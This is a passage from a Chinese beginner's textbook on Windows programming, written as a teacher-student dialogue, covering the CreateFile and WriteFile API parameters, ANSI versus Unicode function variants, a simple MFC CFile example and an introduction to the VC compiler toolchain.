    DWORD dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD dwCreationDisposition,
    DWORD dwFlagsAndAttributes,
    HANDLE hTemplateFile
);
```

参数：

| 参数 | 说明 |
|---|---|
| `LPCTSTR lpFileName` | 要建立或打开的文件名。 |
| `DWORD dwDesiredAccess` | 打开文件所想拥有的权限； |
| `DWORD dwShareMode` | 文件的共享方式； |
| `LPSECURITY_ATTRIBUTES lpSecurityAttributes` | 指向 SECURITY_ATTRIBUTES 结构的指针； |
| `DWORD dwCreationDisposition` | 文件存在与不存在时的操作方式； |
| `DWORD dwFlagsAndAttributes` | 文件属性和标志； |
| `HANDLE hTemplateFile` | 模板文件句柄；可以为 NULL。 |

老师强调：“所有的 API 函数，都有 ANSI 实现和 Unicode 实现两种形式，分别是函数名加 A 和 W。以 CreateFile 函数为例，在 WINBASE.H 中，有预定义如下。”

```c
#ifdef UNICODE
#define CreateFile CreateFileW
#else
#define CreateFile CreateFileA
#endif
```

“这是预定义的表示法。`#ifdef UNICODE` 即在 Unicode 环境下时，`#define CreateFile CreateFileW`——CreateFile 函数等于是 CreateFileW 函数；`#else`，否则，就是在 ANSI 的环境下时，`#define CreateFile CreateFileA`——CreateFile 函数等于是 CreateFileA 函数。”

“就是说，在 Windows 下，其实是没有 CreateFile 这个函数的实现的，只有 CreateFileA 和 CreateFileW 这两个函数的实现。当 CreateFile 的参数是 ANSI 码时，系统会自动使用 CreateFileA 来执行；如果参数是 Unicode 码，系统则使用 CreateFileW 来执行。”

“哦！好神奇！”

“而 CreateFileA 和 CreateFileW 在系统中，其实也只具体实现了一个。在 Win98 时，实现的是 CreateFileA 函数，CreateFileW 函数只是将所带参数转变为 ANSI 后，调用 CreateFileA 函数来完成功能。”

“在进入 Win2000 后，为了国际化的使用，微软力推 Unicode。所以在 Win2000 以上的系统中，都是具体实现 Unicode 函数。这里就是实现了 CreateFileW，而 CreateFileA 只是将参数转换为 Unicode 后，调用 CreateFileW 函数。”

“具体说，CreateFileA 函数的反汇编就是。”

```asm
.text:77E5A837 ; HANDLE __stdcall CreateFileA(LPCSTR lpFileName,
DWORD dwDesiredAccess,
DWORD dwShareMode,
LPSECURITY_ATTRIBUTES lpSecurityAttributes,
DWORD dwCreationDisposition,
DWORD dwFlagsAndAttributes,
HANDLE hTemplateFile)
.text:77E5A837                 public CreateFileA
.text:77E5A837 lpFileName            = dword ptr 8
.text:77E5A837 dwDesiredAccess       = dword ptr 0Ch
.text:77E5A837 dwShareMode           = dword ptr 10h
.text:77E5A837 lpSecurityAttributes  = dword ptr 14h
.text:77E5A837 dwCreationDisposition = dword ptr 18h
.text:77E5A837 dwFlagsAndAttributes  = dword ptr 1Ch
.text:77E5A837 hTemplateFile         = dword ptr 20h

.text:77E5A837                 push    ebp
.text:77E5A838                 mov     ebp, esp
.text:77E5A83A                 push    [ebp+lpFileName]
.text:77E5A83D                 call    sub_77E5A7FC
.text:77E5A842                 test    eax, eax
.text:77E5A844                 jz      loc_77E801FD
.text:77E5A84A                 push    [ebp+hTemplateFile]
.text:77E5A84D                 push    [ebp+dwFlagsAndAttributes]
.text:77E5A850                 push    [ebp+dwCreationDisposition]
```

# 黑客编程入门

```text
text:77E5A853    push    [ebp+lpSecurityAttributes]
text:77E5A856    push    [ebp+dwShareMode]
text:77E5A859    push    [ebp+dwDesiredAccess]
text:77E5A85C    push    dword ptr [eax+4]
text:77E5A85F    call    CreateFileW
```

“啊，啊，这个……这个……”，小菜们往后一跳，手脚狂摆，道：“我们连 C 语言都才学不久，没有理由会认识汇编吧。”

“呵呵，代码的主要含义就是把参数转变成 Unicode 形式，然后直接调用 CreateFileW 函数而已，和前面说的是一致的。”

“哇！一个小小的 API 函数，也有这么大学问啊！”小菜们点头说道。

“还没完呢。API 函数的参数更有看头，我们一个一个地稍加解释！”

要建立或打开的文件名 lpFileName：该字符串用 ANSI 形式表示时，最长限制是 MAX_PATH，一般是 260；如果想用更长的长度，可以使用 Unicode，从而达到 32767 的长度。但使用 Unicode 时，要在路径最开始加上“\\?\”。这和文件的命名系统规定有关。

打开文件所想拥有的权限属性 dwDesiredAccess：前面说过，一个属性值，其实是精心构造的整数。这些整数用二进制表示时，只有一位置 1，其他位均为 0，从而使用按位取或运算符 `|` 将几个属性连接起来时，系统也能清楚地分辨设置了哪些属性。API 函数的参数也不例外，这里权限属性的取值有：

```c
#define FILE_READ_DATA        (0x0001)    // 文件可读
#define FILE_WRITE_DATA       (0x0002)    // 文件可写
#define FILE_APPEND_DATA      (0x0004)    // 追加数据
#define FILE_EXECUTE          (0x0020)    // 文件可执行
#define FILE_READ_ATTRIBUTES  (0x0080)    // 读取文件属性
#define FILE_WRITE_ATTRIBUTES (0x0100)    // 改变文件属性
#define FILE_ALL_ACCESS (STANDARD_RIGHTS_REQUIRED | SYNCHRONIZE | 0x3FF)
```

所有权限，用 `|` 符号连接起来。文件的共享模式 dwShareMode：指明在使用该文件时，其他程序对该文件的操作权限，可以有如下取值：

```c
#define FILE_SHARE_READ    0x00000001    // 共享可读
#define FILE_SHARE_WRITE   0x00000002    // 共享可写
#define FILE_SHARE_DELETE  0x00000004    // 共享删除
```

如果为 0，则该文件在被关闭前，不可被其他程序共享使用。指向 SECURITY_ATTRIBUTES 结构的指针 lpSecurityAttributes：指明返回的句柄是否可被子进程继承。如果为 NULL，则不可继承。

文件存在与不存在时的操作方式 dwCreationDisposition：

```c
#define CREATE_NEW        1    // 新建文件：如果文件已存在则失败
#define CREATE_ALWAYS     2    // 新建文件：如果已存在，则改写文件
#define OPEN_EXISTING     3    // 打开已存在文件
#define OPEN_ALWAYS       4    // 如果文件存在，则打开；如果不存在，则新建
```

因为在这里，属性 1、2，新建成功和新建失败是矛盾的，不能共存，所以用 3 表示另外一种属性。但一般属性值都不会这样。

文件属性和标志 dwFlagsAndAttributes：该标志只用于文件对象，常用的值如下：

```c
#define FILE_ATTRIBUTE_READONLY   0x00000001    // 只读属性
#define FILE_ATTRIBUTE_HIDDEN     0x00000002    // 隐藏属性
#define FILE_ATTRIBUTE_SYSTEM     0x00000004    // 系统属性
#define FILE_ATTRIBUTE_DIRECTORY  0x00000010    // 目录属性
#define FILE_ATTRIBUTE_ARCHIVE    0x00000020
#define FILE_ATTRIBUTE_ENCRYPTED  0x00000040    // 加密属性
#define FILE_ATTRIBUTE_NORMAL     0x00000080    // 普通
#define FILE_ATTRIBUTE_TEMPORARY  0x00000100    // 临时
```

模板文件句柄 hTemplateFile：该文件句柄提供文件属性和扩展属性给现正被创建的文件。如果 NULL，表明没有模板文件。

返回值：如果函数执行成功，则返回建立或打开文件的句柄，可用在后面的输出文件和关闭文件中。

> 问：为什么讲解得这么详细呢？

答：呵呵，一是为了初学者更好地了解和提高，二是自己的记性不好，详细地写在这里以后便于查找复习。所以在这里，我改变做法，大张旗鼓，浓墨重笔，比较详细地对重要的东西进行介绍。希望达到效果。

“哦！原来是这样，真是用心良苦啊。希望读者也能喜欢这种风格。好，让我们回到现场。”

在我们的程序中，执行如下语句来建立文件句柄。

```c
hFile = CreateFile(
    "testAPI.txt",             // 建立的文件为 testAPI.txt
    GENERIC_WRITE,             // 不能 share 打开
    0,
    NULL,                      // 不使用安全属性，设为 NULL
    OPEN_ALWAYS,               // 文件已存在，则打开；如果不存在，则新建文件
    FILE_ATTRIBUTE_NORMAL,     // 普通文件属性
    NULL                       // 没有模板文件
);
```

即建立一个名为 testAPI.txt 的普通文件，OPEN_ALWAYS 指明如果文件已存在，则打开；如果不存在，则新建文件。

虽然这个语句含有回车和空格，被分成了几行。但编译器，比如 VC，在作编译第一步——语法分析时，会自动识别和去掉回车、空格及 Tab 制表等字符。所以在参数比较长的时候，可以通过适当的回车换行来便于阅读。

建立了文件句柄后，可以使用 WriteFile 函数来往文件中写入内容。WriteFile 函数原型如下：

```c
BOOL WriteFile(
    HANDLE hFile,
    LPCVOID lpBuffer,
    DWORD nNumberOfBytesToWrite,
    LPDWORD lpNumberOfBytesWritten,
    LPOVERLAPPED lpOverlapped
);
```

参数：

| 参数 | 说明 |
|---|---|
| HANDLE hFile | 文件句柄，前面 CreateFile 函数的返回值。 |
| LPCVOID lpBuffer | 往文件里写入的内容。 |
| DWORD nNumberOfBytesToWrite | 往文件写入的字节数。 |
| LPDWORD lpNumberOfBytesWritten | 返回真实写入的字节数。 |
| LPOVERLAPPED lpOverlapped | 指向 OVERLAPPED 结构的指针。 |

具体来说，我们程序的实现是：

```c
WriteFile(
    hFile, "Hello API!",
    sizeof("Hello API!"), &num,
    NULL
);
```

sizeof() 是个特殊的函数，它不存在 EIP，不压堆栈，直接返回参数对象的长度。WriteFile 函数执行后，我们往文件中写入了“Hello API!”这几个字。

最后，使用 CloseHandle API 函数关闭文件句柄，`CloseHandle(hFile)`。

## 小结

老师说道：“我们来验证一下，新建一个记事本文档，重命名为 API.cpp。然后双击打开，在 VC 中输入上面的代码，再 Ctrl+F7 编译，Ctrl+F5 链接运行。成功！生成了名为 testAPI.txt 的文件，并往里面输入了内容‘Hello,API!’，如图 1.3。”



图 1.3

老师说道：“大家可以看到，API 函数的使用方式和 C 语言差不多，因为 API 本身就是用 C 写的。我们在 Windows 系统下编程时，可以用标准 C 语言和 C++ 语言编程（这是当然的，其实这和编译器有关，与系统没有太大的关系，*NIX 下也都可以采用 C 或者是 C++），也可以使用微软提供的 API 函数接口编程（Windows API 只能在 Windows 下使用，*NIX 下是没有的），但在很多时候，我们实际采用的是 C 语言函数和 API 函数的混合使用。”

> “这种混合使用的原因，更多是因为大家没有分清 C 函数和 API 函数之间的区别。”

老师进一步解释道：“标准 C 语言或 C++ 语言，其函数名称全是小写字母，比如前面讲解的 fopen、fprintf、fclose、open 函数等；不仅如此，C 语言的变量类型也全是小写字母。如下：”

```c
int    整型
bool   布尔型
float  浮点型
char   字符型
```

“而 Windows API 函数就不一样了，其函数名是以大写字母开头的大小写混用，如刚才的 CreateFile、WriteFile 等函数名，由多个单词构成，每个单词的开头为大写；而使用的基本变量类型，采用的是全大写字母的 Windows 数据类型。比如刚才程序的 HANDLE、DWORD 等。”

“我们说过 DWORD 其实就是 unsigned long。Windows 的数据类型其实都是这样，是对标准 C 语言数据类型的组合。类似常用的还有：”

```c
typedef int            BOOL;
typedef unsigned char  BYTE;
typedef unsigned short WORD;
typedef int            INT;
typedef unsigned int   UINT;
typedef unsigned int  *PUINT;
```

小菜们问道：“哦，为什么微软要重新命名一次啊，岂不多此一举？”

老师回答：“不。微软觉得 C 语言的全小写命名规则不科学，当函数名称过长时不利于人们的阅读。所以提供了一套改进的命名规范，就是 API 命名规范——函数名称采用大小写混写，而数据类型使用全大写，以显示和 C 语言命名方式的区别。”

“但为了和原来一直使用的标准 C 代码兼容，所以并没有淘汰纯小写的命名规范。就导致了这两种方式的存在。”

“所以，当我们习惯地敲入 int、bool 等定义变量时，其实采用的是 C 语言编程方式；如果是纯 Windows API 的编程，应该采用 INT、BOOL 来定义——微软是老大嘛。”老师最后总结道：“而在 Windows 下，安装了 VC 后，还有一种编程方式——MFC 编程。”

## 1.4 MFC 简介

MFC 的全称是 Microsoft Foundation Class，即微软基础类库。是微软为 Windows 程序员提供的一个面向对象的 Windows 编程接口（Windows API 函数接口不是面向对象的）。

MFC 的出现大大简化了 Windows 平台编程的工作，MFC 库充分利用了 Microsoft 开发人员多年开发 Windows 程序的经验，并可以将这些经验融入到用户自己开发的应用程序中去。MFC 本身提供了一个标准化的结构，这样开发人员可从一个比较高的起点编程，节省了大量时间；而且，MFC 提供了大量的代码，指导用户编程时实现某些技术和功能。

老师说道：“用 MFC 的优势是开发具有标准的、大家所熟悉的 Windows 界面的应用程序，就像窗口、对话框等界面。但我们课程的重点是底层网络通信程序的开发，界面并不重要——用 DOS 界面也就可以了。所以我们不对 MFC 进行过多的讲解，这里只有一个用 MFC 类编写的创建文件的例子。”

### 第一步 新建对话框工程

点击 VC“文件”菜单下的“新建”，在弹出的新建对话框的“工程”栏中选中 MFC AppWizard，在右边的“工程名称”中输入“testMFC”，并选好工程的存储位置，如图 1.4。



图 1.4

点击“确定”按钮后，在 MFC 向导 1 中选择“对话框”，然后点击“完成”，VC 就会自动为我们生成基本的对话框框架，如图 1.5。



图 1.5

### 第二步 添加“确定”按钮响应代码

双击 VC 资源管理器中那个对话框的“确定”按钮，弹出“添加成员函数”对话框，如图 1.6。



图 1.6

点“OK”后，VC 会自动生成和定位到 `void CTestMFCDlg::OnOK()` 函数中。我们加入如下代码：

```cpp
CFile file;
file.Open("testMFC.txt", CFile::modeCreate | CFile::modeWrite, NULL);
file.Write("Hello MFC!", sizeof("Hello MFC!"));
file.Close();
```

然后去掉 VC 自动生成的 `CDialog::OnOK();` 语句，如图 1.7。



图 1.7

### 第三步 运行和测试

添加代码完成后，我们按 Ctrl+F5 执行，就会弹出一个 Windows 界面的标准对话框，如图 1.8。



图 1.8

我们点击“确定”按钮，就会在本目录下生成一个名为“testMFC.txt”的文件，里面的内容为“Hello MFC!”；点击“取消”按钮，对话框结束退出。

可以看到，用 MFC 编写的程序易学易用，并立即支持所有 Windows 的标准特性。我们自己的那段代码，是点击对话框的“确定”按钮后所要相应执行的东西。

首先 `CFile file` 为定义一个 CFile 类的 file 对象。其中 CFile 是 MFC 提供的文件类。然后就像 C++ 一样了，对象 file 后面加上“.”来调用成员函数，这里分别使用了三个成员函数。

```cpp
file.Open("testMFC.txt", CFile::modeCreate | CFile::modeWrite, NULL);
```

打开名为“testMFC.txt”的文件，`CFile::modeCreate | CFile::modeWrite` 表示如果文件不存在则新建，如果文件存在则追加；最后一个参数为文件异常处理对象指针，默认设为 NULL 就可以了。

```cpp
file.Write("Hello MFC!", sizeof("Hello MFC!"));
```

往文件里写入“Hello MFC!”；

```cpp
file.Close();
```

最后关闭文件。

## 小结

> 老师说道：“MFC 也有独特的命名规范。它的类以字母 C 开头，如刚才的 CFile 类；而且全局 MFC 的函数名都是以 Afx 为前缀，比如 AfxMessageBox()。并且，MFC 要在机器上安装了 VC 之后才有。”

> “讲了这么多，可以看出，在 Windows 环境下的程序设计层次，如图 1.9。”



图 1.9

> “我们应用程序的编写，既可以基于 API 的接口，也可以基于 MFC 和 VCL，其他的一些类库。”老师指着图说道，“API 函数由 C 语言编写，而类库一般是由 C++ 编写。”

> “API 函数分为用户态 API 和核心态 API，而 MFC 是对 API 函数的封装，加入了面向对象的思想。”

“这些全是 Windows 惹的祸。”老师说道，“在 *NIX 中，就没有这个问题，编程踏踏实实地使用标准的 C/C++ 语言就可以了。”

“这么方便？那支持 *NIX，开源无敌！”

“不过既然在 Windows 下，那么我们还是探讨如何使用 VC 来进行程序设计吧。”

## 1.5 VC 是什么

“工欲善其事，必先利其器。我们先对 VC 本身作个介绍吧。”

“什么？？？”小菜们睁大了眼睛：“还要介绍吗？我们都用 VC 编了四个程序了。”

“对。”老师说道，“但，大家的双眼都被 VC 的界面屏蔽住了，VC 并不是那么简单。我们再 look inside，就是更深入一点。VC 本身是很多复杂工具的集合，它自身包括编译器、IDE 界面和 MFC 编程接口。”

### 1.5.1 编译器

VC 首先最重要的功能就是编译 C/C++ 程序的功能。

编译程序完成从源程序到目标程序的翻译工作，是一个复杂的整体过程。一般编译过程划分成词法分析、语法分析、语义分析、中间代码生成、代码优化和目标代码生成六个阶段。

不同的语言有不同的编译器，比如 C 语言有 TC、LCC 编译器；C++ 有 BCC；汇编有 TASM 编译器等。对同一种语言，也有很多种编译器，比如对 C/C++，VC 可以编译，C++Builder 也可以编译；如果有雅兴，学习了编译原理后，也可以自己写个编译器来对 C/C++ 语言进行识别和编译。

在上面的例子中，编译和链接的操作都隐藏在了 Ctrl+F7 和 Ctrl+F5 中。在 VC 中，和编译链接相关的包括预处理器—编译器—汇编器—链接器。

预处理器会处理相关的预处理指令，一般是以“#”开头的指令。如：`#include "xx.h"`、`#define` 等。

编译器把对应的 `*.cpp` 翻译成 `*.s` 文件（汇编语言），汇编器则处理 `*.s` 生成对应的 `*.o` 文件（obj 目标文件），最后链接器把所有的 `*.o` 文件链接成一个可执行文件（`*.exe`）。

“在前面的程序中，都是进入 VC 图形化界面中用 Ctrl+F7 来编译程序的。其实，VC 单独提供了编译器工具。我们可以根本不进入 VC 的图形化界面，在 DOS 命令行下编译程序，把一个 C 或 CPP 文件编译链接成 exe 文件。”老师说道。

“哦！？在命令行下编译？”小菜们感兴趣地说道。

“是的，这是 VC 工具集合中的第一样工具——编译器。”老师回答道，“安装在 VC 安装目录的 VC98\Bin 下。”

“VC98\Bin 下有很多 exe 文件，包括刚才提到的预处理器、编译器、汇编器、链接器等。除此之外，还有一个 CL.exe，可以完成从源文件编译、链接生成 EXE 文件的全过程。”

“哦！那我们快试试吧！”

“别慌，编译之前要先设置好 INCLUDE、LIB 等路径。”老师说道，“在 VC98\Bin 目录下，有一个名为 vcvars32.bat 的批处理文件，它可以帮我们自动设置好这些路径。我们先在 DOS 控制台下运行它，如图 1.10。”

